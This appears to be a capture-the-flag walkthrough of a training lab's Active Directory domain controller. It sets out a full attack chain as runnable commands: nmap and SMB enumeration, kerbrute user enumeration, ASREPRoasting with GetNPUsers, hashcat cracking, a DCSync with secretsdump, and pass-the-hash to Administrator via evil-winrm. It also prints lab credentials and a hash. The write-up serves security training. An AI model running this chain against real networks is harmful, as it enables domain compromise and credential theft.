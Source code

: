 # Attacking Active Directory

## Scanning and Enumeration

Doing an nmap scan:

```bash
nmap -p- -A -T4 10.10.213.34
```

Output:  

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-11-13 19:31:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-11-13T19:32:44+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2020-11-13T19:32:52+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC

Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Server 2012 (93%)
```

#### Port 139/445 SMB

Trying to enumerate SMB with smbclient and smbmap failed so

```bash
smbclient -L \\10.10.213.34
smbclient -N -L \\10.10.213.34
smbmap -H 10.10.213.34 -R
```

Let's try **enum4linux**

```bash
enum4linux -a 10.10.213.34
```

I read some stuff for [TLD](https://wiki.samba.org/index.php/Active_Directory_Naming_FAQ)
and i was able to answer the Task 2 Questions

Some Information we got from **enum4linux**:

```text
Domain Name: THM-AD
Full AD domain: spookysec.local
TLD: .local (invalid)
```

#### Port 88 Kerberos

Let's try to find some valid users with the given wordlists
(It is **NOT** recommended to brute force creds due to account lockout policies
that we cannot enumerate on the domain controller)

```bash
/opt/windows/kerbrute/dist/kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local /root/thm/medium/ctfs/attactivedirect/users.txt -t 100
```

## Exploitation

Introduction

After the enumeration of user accounts is finished,
we can attempt to abuse a feature within Kerberos with an attack method called
ASREPRoasting. ASReproasting occurs when a user account has the privilege
"Does not require Pre-Authentication" set.
This means that the account does not need to provide valid identification
before requesting a Kerberos Ticket on the specified user account.

Exploitation

Impacket has a tool called "GetNPUsers.py"
(located in Impacket/Examples/GetNPUsers.py) that will allow us to query
ASReproastable accounts from the Key Distribution Center.
The only thing that's necessary to query accounts is a valid set of usernames
which we enumerated previously via Kerbrute.

```bash
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -no-pass -usersfile users.txt
```

And we get **svc-admin's** hash

To crack it we can use **hashcat**
The syntax is:

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
```

## Post Exploitation

With a user's account credentials we now have significantly more access within
the domain. We can now attempt to enumerate any shares that the domain
controller may be giving out.

Using **smbclient** and the using the creds that I found

```bash
smbclient -U svc-admin -L \\\\10.10.30.33\\
smbclient -U svc-admin \\\\10.10.30.33\\backup
```

We retrieve a backup file named **backup_credentials.txt**

If we decode the content we find out the hidden creds

```text
backup@spookysec.local:backup2517860
```

We now can use **impacket-secretsdump** with backup's credentials to dump
some hashes

```bash
impacket-secretsdump -just-dc backup:backup2517860@spookysec.local
```

## Privilege Escalation

In the hash dump we find the hash of the Administrator user and we get
a shell as Administrator with **evil-winrm**

```bash
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

```json
```
